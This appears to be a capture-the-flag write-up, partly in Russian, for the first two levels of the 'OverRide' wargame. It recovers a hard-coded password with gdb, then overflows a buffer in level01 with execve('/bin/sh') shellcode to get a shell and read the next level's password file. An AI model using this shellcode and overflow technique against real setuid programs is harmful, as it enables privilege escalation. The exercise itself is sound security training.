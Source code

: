 # override

LEVEL00
		
level00@OverRide:~$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:
		
Видим, что требуется пароль.
		
$ gdb level00
		
В main происходит сравнение строки, которая подается в качестве пароля с 0x149c, что соответствует  5276 в десятичной.
		
0x080484e7 <+83>:	cmp    $0x149c,%eax

Если подается что-то другое то команда jne перебрасывается мимо необходимой команды system.

0x080484ec <+88>:	 jne    0x804850d <main+121>

$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:5276

Authenticated!

$ cat /home/users/level01/.pass
uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

LEVEL01

 (cat /tmp/user ; cat) | ./level01

python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\n' + 'A'*80 + '\x08\x04\xa0\x47'[::-1]" > /tmp/test

level01@OverRide:~$ cat /tmp/test - | ./level01

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
